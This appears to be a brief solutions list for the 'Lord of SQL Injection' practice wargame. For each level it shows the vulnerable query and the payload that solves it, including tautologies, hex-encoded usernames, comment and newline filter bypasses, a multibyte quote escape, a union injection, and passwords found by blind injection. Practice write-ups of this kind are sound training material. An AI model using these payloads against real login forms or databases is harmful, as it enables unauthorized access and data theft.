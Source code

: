 # Lord-of-Sql-injection

>gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


>cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


>goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


>orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


>wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


>darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


>orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


>troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


>vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


>skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


>golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


>darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


>bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


>giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


>assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


>zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


>succubus(pass)

>nightmare(pass)


>xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


>dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석


>iron_golem(error based blind)

prob : select id from prob_iron_golem where id='admin' and pw=''

solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a


>dark_eyes(error based blind)

prob : select id from prob_dark_eyes where id='admin' and pw=''

solve : ?pw=5a2f5d3c


>hell_fire(error based blind)

prob : select id,email,score from prob_hell_fire where 1 order by

solve : ?pw=admin_secure_email@emai1.com


>green_dragon

prob : select id,pw from prob_green_dragon where id='' and pw=''

solve : ?id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23

memo : query1=select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
       query2=select id from prob_green_dragon where id='1' and pw='2',
       쿼터 필터링, 
       query1 : id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23 
       query2 : id = \ , pw = union select 0x61646d696e#
       0x5c
       0x756e696f6e2073656c6563742030783631363436643639366523   


>red_dragon(노가다)

prob : select id from prob_red_dragon where id='' and no=1

solve : 586482014

memo : id는 7자리까지, no는 is_numeric함수 사용, #과 개행문자로 우회


>blue_dragon(timed based)

prob : select id from prob_blue_dragon where id='' and pw=''

solve : d948b8a0


